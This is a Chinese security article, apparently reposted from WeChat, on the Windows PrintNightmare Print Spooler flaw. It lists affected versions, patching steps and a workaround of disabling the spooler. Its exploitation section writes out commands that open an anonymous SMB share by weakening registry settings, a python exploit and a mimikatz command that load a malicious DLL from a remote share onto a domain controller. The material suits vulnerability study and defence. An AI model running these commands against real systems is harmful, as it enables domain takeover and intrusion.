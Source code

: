 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Vceup70C9USoM4JwK-6Z9w)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/iciaX2AzlFoVicsysTS4xsBxK7nGibNYbud0Tf6VicDlTs588KmyM8NxqYFuDX59ck0ORExDtoWeSVDC9CMmnZpt2jw/640)

Windows Print Spooler 权限提升漏洞（PrintNightmare）

  

**目录**

一：漏洞概述

二：影响范围

三：漏洞利用

          漏洞过程  

         创建匿名 SMB 共享  

使用 python 脚本攻击

使用 mimikatz 攻击

四：漏洞防护

4.1 官方升级

4.2 临时防护措施

![](https://mmbiz.qpic.cn/mmbiz_gif/zibb4iaicdznzDBHw6juG8h2mltoSZY29HYr3M3VU05Z1V3ZxGfAB3uNHYs4ahQXkcYic9icnZ26VFIhibl0Anm9kib8Q/640)

**壹**

漏洞概述

       2021 年 6 月 9 日，微软发布 6 月安全更新补丁，修复了 50 个安全漏洞，其中包括一个 Windows Print Spooler 权限提升漏洞（CVE-2021-1675），该漏洞被标记为提权漏洞。普通用户可以利用此漏洞以管理员身份在运行打印后台处理程序服务的系统上执行代码。然而在 6 月 21 日，微软又将该漏洞升级为远程代码执行漏洞。

      2021 年 6 月 29 日，有安全研究员在 github 公布了打印机漏洞利用 exp。但是令人没想到的是，该漏洞利用 exp 针对的漏洞是一个与 CVE-2021-1675 类似但不完全相同的漏洞，并且微软针对该漏洞并没有推送更新补丁，所以也就意味着这是一个 0day 漏洞，这个 0day 漏洞被称为 PrintNightmare，最新的漏洞编号为 CVE-2021-34527。

    Print Spooler 是 Windows 系统中用于管理打印相关事务的服务，在 Windows 系统中用于后台执行打印作业并处理与打印机的交互，管理所有本地和网络打印队列及控制所有打印工作。该服务对应的进程 spoolsv.exe 以 SYSTEM 权限执行，其设计中存在的一个严重缺陷，由于 SeLoadDriverPrivilege 中鉴权存在代码缺陷，参数可以被攻击者控制，普通用户可以通过 RPC 触发 RpcAddPrinterDrive 绕过安全检查并写入恶意驱动程序。如果一个域中存在此漏洞，域中普通用户即可通过连接域控 Spooler 服务，向域控中添加恶意驱动，从而控制整个域环境。  

![](https://mmbiz.qpic.cn/mmbiz_gif/zibb4iaicdznzDBHw6juG8h2mltoSZY29HYr3M3VU05Z1V3ZxGfAB3uNHYs4ahQXkcYic9icnZ26VFIhibl0Anm9kib8Q/640)

**贰**

影响范围

  

受影响版本

- Windows Server 2012 R2 (Server Core installation)  
- Windows Server 2012 R2  
- Windows Server 2012 (Server Core installation)  
- Windows Server 2012  
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)  
- Windows Server 2008 R2 for x64-based Systems Service Pack 1  
- Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)  
- Windows Server 2008 for x64-based Systems Service Pack 2  
- Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)  
- Windows Server 2008 for 32-bit Systems Service Pack 2  
- Windows RT 8.1  
- Windows 8.1 for x64-based systems  
- Windows 8.1 for 32-bit systems  
- Windows 7 for x64-based Systems Service Pack 1  
- Windows 7 for 32-bit Systems Service Pack 1  
- Windows Server 2016 (Server Core installation)  
- Windows Server 2016  
- Windows 10 Version 1607 for x64-based Systems  
- Windows 10 Version 1607 for 32-bit Systems  
- Windows 10 for x64-based Systems  
- Windows 10 for 32-bit Systems  
- Windows Server, version 20H2 (Server Core Installation)  
- Windows 10 Version 20H2 for ARM64-based Systems  
- Windows 10 Version 20H2 for 32-bit Systems  
- Windows 10 Version 20H2 for x64-based Systems  
- Windows Server, version 2004 (Server Core installation)  
- Windows 10 Version 2004 for x64-based Systems  
- Windows 10 Version 2004 for ARM64-based Systems  
- Windows 10 Version 2004 for 32-bit Systems  
- Windows 10 Version 21H1 for 32-bit Systems  
- Windows 10 Version 21H1 for ARM64-based Systems  
- Windows 10 Version 21H1 for x64-based Systems  
- Windows 10 Version 1909 for ARM64-based Systems  
- Windows 10 Version 1909 for x64-based Systems  
- Windows 10 Version 1909 for 32-bit Systems  
- Windows Server 2019 (Server Core installation)  
- Windows Server 2019  
- Windows 10 Version 1809 for ARM64-based Systems  
- Windows 10 Version 1809 for x64-based Systems  
- Windows 10 Version 1809 for 32-bit Systems

![](https://mmbiz.qpic.cn/mmbiz_gif/zibb4iaicdznzDBHw6juG8h2mltoSZY29HYr3M3VU05Z1V3ZxGfAB3uNHYs4ahQXkcYic9icnZ26VFIhibl0Anm9kib8Q/640)

**叁**

漏洞利用

  

**漏洞过程**

1：首先我们搭建一个 SMB 匿名共享，放我们的恶意 dll 文件。  
2：然后执行利用工具，工具运行后会先检测 C:\Windows\System32\DriverStore\FileRepository 目录下 ntprint.inf_amd64_xx 文件名，自动替换。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cvBYd6PeAZmHLs8ey3Rw3nTeObSXenuRWwpkFybSftou9SRzTh7nJBt3yDUcomniaic1TiaRqib7ib1AA/640)

*   然后远程拉取我们设置的匿名共享的恶意 dll 文件
    
*   py 脚本会将我们的恶意 dll 文件传到域控的 C:\Windows\System32\spool\drivers\x64\3\ 目录下并执行。  
    而 mimikatz 则是将我们的恶意 dll 文件传到域控的 C:\Windows\System32\spool\drivers\x64\old\2\ 目录下并执行 (会创建 old\2 \ 目录)。
    

**检测是否存在漏洞**

先检测目标机器是否开启 MS-RPRN 服务，存在即可以尝试利用：

python3 rpcdump.py @10.211.55.14 | grep MS-RPRN

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cvBYd6PeAZmHLs8ey3Rw3nic11FcBNlH3jlUXd9ayRSt1DADia3pdeLicOVT0LVXkkfdKC9ibbVtUgLA/640)

### 创建匿名 SMB 共享

```
mkdir C:\share
icacls C:\share\ /T /grant "ANONYMOUS LOGON":r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
执行完以上语句后，部分机器需要重启
```

**使用 python 脚本攻击**  

```
python3 CVE-2021-1675.py xie.com/test:P@ss1234@10.211.55.14 '\\10.211.55.7\share\1.dll'
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cvBYd6PeAZmHLs8ey3Rw3nFDIc9kRTSEE3gcgEPcxn4SiakzOP4lyNicSicU929TJqrQLBHbIH4HBHg/640)

**使用 mimikatz 攻击**

```
mimikatz.exe
misc::printnightmare /server:10.211.55.14 /library:\\10.211.55.7\share\1.dll
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cvBYd6PeAZmHLs8ey3Rw3nDtLpdEVZn6EGZ44rBzAgC3rMA70Etlicyl4mx9jr197KYX2VxebkicHg/640)

实战测试攻击 Windows Server2016、2019 均能成功上线。Server2012 只能上传恶意 dll，不能执行上线，08 未攻击成功。

![](https://mmbiz.qpic.cn/mmbiz_gif/zibb4iaicdznzDBHw6juG8h2mltoSZY29HYr3M3VU05Z1V3ZxGfAB3uNHYs4ahQXkcYic9icnZ26VFIhibl0Anm9kib8Q/640)

**肆**

漏洞防护

  

4.1

官方升级

目前微软官方已针对支持的系统版本发布了修复该漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接：  
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675  
注：由于网络问题、计算机环境问题等原因，Windows Update 的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。  
右键点击 Windows 图标，选择 “设置(N)”，选择“更新和安全”-“Windows 更新”，查看该页面上的提示信息，也可点击“查看更新历史记录” 查看历史更新情况。  
针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到 “Microsoft 更新目录” 网站下载独立程序包并安装。

4.2

临时防护措施

若相关用户暂时无法进行补丁更新，可通过禁用 Print Spooler 服务来进行缓解：  
一：在服务应用（services.msc）中找到 Print Spooler 服务。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fZde99sicNvkmkH1WNSic1MRIUzhiakrc9wKyib4mDxmcJfq240zXpKhbSUyNxibib1voQnojd3GKibaE3w/640?wx_fmt=png)

二：停止运行服务，同时将 “启动类型” 修改为“禁用”。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fZde99sicNvkmkH1WNSic1MRp6SBiaPibtY0ARmxUrsX2ln1BYOauiaAsRyAMnwasC0sITUQRI8jkG30A/640?wx_fmt=png)

参考：

http://blog.nsfocus.net/windows-print-spoolercve/

https://github.com/hhlxf/PrintNightmare

https://msrc.microsoft.com/update-guide/zh-cn/vulnerability/CVE-2021-1675

[https://mp.weixin.qq.com/s/fVzaBhHbI6QTlnvnK0nMug](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247486906&idx=1&sn=2781e972a16ef28ce3c6417e9c2cf075&scene=21#wechat_redirect)